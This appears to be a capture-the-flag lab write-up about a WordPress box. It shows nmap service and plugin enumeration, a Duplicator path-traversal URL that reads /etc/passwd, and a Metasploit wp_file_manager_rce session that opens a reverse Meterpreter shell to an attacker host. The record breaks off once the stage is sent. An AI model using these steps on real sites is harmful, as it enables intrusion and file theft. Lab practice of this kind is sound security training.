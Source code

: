 - What protocols are used for these ports?
> http,mysql

##  Web Exploitation

- Scan port 80 

```bash

└─$ nmap -p 80 127.0.0.1 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-27 09:41 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.7
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: BadByte &#8211; You&#039;re looking at me, but they are lookin...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.46 seconds

```

- Enumeration 

```bash
└─$ nmap -p 80 --script http-wordpress-enum --script-args type="plugins",search-limit=1500 127.0.0.1                                              1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-27 09:46 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00017s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 1500 themes/plugins
|   plugins
|     duplicator 1.3.26
|_    wp-file-manager 6.0

Nmap done: 1 IP address (1 host up) scanned in 9.83 seconds
                                                                                                                                                      
```
- ABOUT DUPLICATOR VULN : `https://www.exploit-db.com/exploits/50420`
- Duplicator is basically LFI 
> 127.0.0.1/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../etc/passwd


#### User shell

```bash
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST 10.9.2.60
LHOST => 10.9.2.60
msf6 exploit(multi/http/wp_file_manager_rce) > run

[*] Started reverse TCP handler on 10.9.2.60:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:80 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/CMRdTO.php
[*] Sending stage (39282 bytes) to 10.10.184.227
```